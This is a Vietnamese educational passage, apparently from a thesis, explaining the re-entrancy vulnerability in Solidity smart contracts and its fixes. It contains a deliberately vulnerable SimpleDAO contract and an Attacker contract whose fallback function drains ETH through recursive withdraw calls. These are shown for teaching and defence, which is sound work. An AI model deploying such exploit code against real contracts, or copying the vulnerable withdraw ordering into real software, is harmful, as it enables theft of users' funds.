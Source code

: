 # Re-entrancy <re-entrancy>

## Mô tả <re-entrancy-description>

Là một kiểu tấn công đệ quy tương hỗ xảy ra giữa smart contract của nạn nhân và smart contract của kẻ tấn công. Cụ thể hơn, kẻ tấn công sẽ liên tục gọi lại một hàm trong smart contract của nạn nhân trước khi lời gọi trước đó được thực thi xong.

Ví dụ bên dưới là phiên bản đơn giản của smart contract được dùng để vận hành DAO #footnote[DAO (Decentralized Autonomous Organizations) là một tập các smart contract hoạt động như một quỹ đầu tư tự động.]:

```sol
/*
 * @source: http://blockchain.unica.it/projects/ethereum-survey/attacks.html#simpledao
 * @author: Atzei N., Bartoletti M., Cimoli T
 * Modified by Josselin Feist
 */
pragma solidity 0.4.24;

contract SimpleDAO {
  
  mapping (address => uint) public credit;

  function donate(address to) payable public{
    credit[to] += msg.value;
  }

  function withdraw(uint amount) public {
    if (credit[msg.sender]>= amount) {
      require(msg.sender.call.value(amount)());
      credit[msg.sender]-=amount;
    }
  }  

  function queryCredit(address to) view public returns(uint){
    return credit[to];
  }
  
}
```

Trong ví dụ trên, smart contract cho phép quyên góp một lượng `msg.value` wei đến cho địa chỉ `to` thông qua hàm `donate`. Để rút ETH, người dùng có thể gọi hàm `withdraw` và truyền vào tham số `amount` lượng ETH cần rút.

Kẻ tấn công có thể xây dựng một smart contract dùng để tấn công như sau:

```sol
pragma solidity 0.4.24;

contract Attacker {
  
  SimpleDAO public simpleDAO;

  constructor(address _simpleDAOAddress) {
    simpleDAO = SimpleDAO(_simpleDAOAddress);
  }

  function attack() {
    simpleDAO.donate.value(1)(this);
    simpleDAO.withdraw(1 ether);
  }
  
  function() {
    simpleDAO.withdraw(1 ether);
  }
  
}
```

Khi kẻ tấn công gọi hàm `attack`, smart contract `Attacker` sẽ chuyển 1 ETH đến cho `SimpleDAO` thông qua hàm `donate` với đối số của `to` là địa chỉ của `Attacker`. Sau đó, hàm `attack` gọi đến hàm `withdraw` của `SimpleDAO` với đối số của `amount` là 1 ETH.

Lúc này, hàm `withdraw` của `SimpleDAO` sẽ gọi lại hàm fallback của `Attacker`. Tuy nhiên, hàm fallback của `Attacker` lại gọi đến hàm `withdraw` của `SimpleDAO`. Việc gọi hàm này ngăn cho biến trạng thái `credit[msg.sender]` bị giảm giá trị và dẫn đến điều kiện `if (credit[msg.sender]>= amount)` là luôn đúng đối với các lời gọi đệ quy sau.

Việc gọi đệ quy sẽ tiếp diễn đến khi:
1. Xảy ra ngoại lệ hết gas (out-of-gas exception).
2. Chạm đến giới hạn của stack.
3. Smart contract `SimpleDAO` không còn ETH nào.

## Cách khắc phục <re-entrancy-remediation>

Sử dụng các mẫu bảo mật chẳng hạn như Check-Effect-Interaction hoặc Mutex @wohrer_2018_smart.

Mẫu bảo mật Check-Effect-Interaction xếp lời gọi đến smart contract khác ở cuối và sau khi cập nhật biến trạng thái. 

Ví dụ:

```sol
pragma solidity 0.4.24;

contract SimpleDAO {
  
  mapping (address => uint) public credit;

  function donate(address to) payable public{
    credit[to] += msg.value;
  }

  function withdraw(uint amount) public {
    // 1. Check
    if (credit[msg.sender]>= amount) {
      // 2. Effect
      credit[msg.sender]-=amount;
      // 3. Interaction
      require(msg.sender.call.value(amount)());
    }
  }  

  function queryCredit(address to) view public returns(uint){
    return credit[to];
  }
  
}
```

Trong ví dụ trên, biến trạng thái `credit` được cập nhật trước khi hàm `call` được thực thi.

Ngoài ra, cũng có thể sử dụng smart contract ReentrancyGuard của OpenZeppelin @openzeppelin-reentrancy-guard để ngăn chặn các lời gọi đệ quy. Cụ thể, smart contract này cung cấp modifier `nonReentrant` để ngăn cản một smart contract gọi lại chính nó một cách trực tiếp hoặc gián tiếp.
